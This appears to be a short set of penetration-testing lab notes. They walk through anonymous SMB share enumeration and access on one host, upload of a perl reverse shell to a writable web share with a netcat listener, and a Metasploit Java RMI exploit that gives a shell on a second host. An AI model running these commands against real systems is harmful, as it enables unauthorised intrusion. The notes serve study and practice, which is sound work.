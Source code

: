 ### Share enumeration
```
python3 smbmap.py -H 172.16.80.27
```

// found the web share with READ/WRITE permissions

Alternatively,
```
nmap --script smb-enum-shares 172.16.80.27
```

#### Access that share
```
smbclient -N \\\\172.16.80.27\\web -U ""
ls
```

// lets upload a perl reverse shell
// Kalis location: /usr/share/webshells/perl/perl-reverse-shell.pl
// remember to change the ip address of the attacker (kali ip)

```
put perl-reverse-shell.pl
```

#### open a listener
```
nv -lvnp 1234
 open the file in the browser
```

> we have a shell as www-data



### 172.16.80.22

- This scan took so long, that I lost all my will.
- anyway, there is a RMI Registry service listening on a non-standard port of 1999
- research on google. Its vulnerable to arbitrary loading of java classes

msf:
```
use expĺoit/multi/misc/java_rmi_server
set options
run
// we have a shell as todd - a low level user
```

#### lets enter in the session
```
session -i 1
shell
uname -a
// to grab the kernel version
// we can also excute python pty and xterm to get a better shell
kernel version: 2.6.24-16
```
